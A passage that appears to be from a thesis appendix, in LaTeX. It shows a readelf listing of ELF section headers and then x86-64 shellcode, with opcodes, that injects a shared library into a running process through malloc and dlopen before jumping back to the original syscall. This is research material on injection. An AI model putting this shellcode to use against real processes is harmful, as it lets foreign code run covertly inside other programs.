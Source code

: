 \begin{lstlisting}[language=bash, caption={List of ELF section headers with readelf tool of a program compiled with GCC.}, label={code:elf_sections}]
  [34] .strtab           STRTAB           0000000000000000  00003d18
       00000000000002a2  0000000000000000           0     0     1
  [35] .shstrtab         STRTAB           0000000000000000  00003fba
       000000000000015f  0000000000000000           0     0     1
Key to Flags:
  W (write), A (alloc), X (execute), M (merge), S (strings), I (info),
  L (link order), O (extra OS processing required), G (group), T (TLS),
  C (compressed), x (unknown), o (OS specific), E (exclude),
  l (large), p (processor specific)
\end{lstlisting}


\chapter* {Appendix C - Library injection shellcode} \label{annex:shellcode}
\begin{lstlisting}[language={[x86masm]Assembler}, caption={Shellcode for library injection and its opcodes.}, label={code:shellcode}]
# Saving state of registers
push rbp  # 55
push rax  # 50
push rcx  # 51
push rdx  # 52
push rbx  # 53
push rdi  # 57
push rsi  # 56

# Call malloc. Get address in the heap
mov edi,0x2000 # BF00200000
mov rbx, <malloc address libc>  # 48BB<address little endian 64bit>               
call rbx  # FFD3
mov rbx, rax  # 4889C3

# Write the string of the library path into reserved memory
mov dword [rax],0x6d6f682f  # C7002F686F6D 
mov dword [rax+0x4],0x736f2f65  # C74004652F6F73
mov dword [rax+0x8],0x65786f62  # C74008626F7865
mov dword [rax+0xc],0x46542f73  # C7400C732F5446
mov dword [rax+0x10],0x72732f47  # C74010472F7372
mov dword [rax+0x14],0x65682f63  # C74014632F6865
mov dword [rax+0x18],0x7265706c  # C740186C706572
mov dword [rax+0x1c],0x6e692f73  # C7401C732F696E
mov dword [rax+0x20],0x7463656a  # C740206A656374
mov dword [rax+0x24],0x5f6e6f69  # C74024696F6E5F
mov dword [rax+0x28],0x2e62696c  # C740286C69622E
mov dword [rax+0x2c],0x6f73  # C7402C736F0000

# Call dlopen.
mov rax, <dlopen address libc>  # 48B8<address little endian 64bit>
mov rsi, 0x1  # BE01000000
mov rdi, rbx  # 4889DF
sub rsp,0x1000  # 4881EC00100000
call rax  # FFD0

# Restoring state of registers and execution flow
add rsp,0x1000  # 4881C400100000
pop rsi  # 5E
pop rdi  # 5F
pop rbx  # 5B
pop rdx  # 5A
pop rcx  # 59
pop rax  # 58
pop rbp  # 5D

# Jump to the original syscall
jmp qword ptr [rip+0x0]  # FF2500000000
<address original syscall glibc 64bit>

\end{lstlisting}
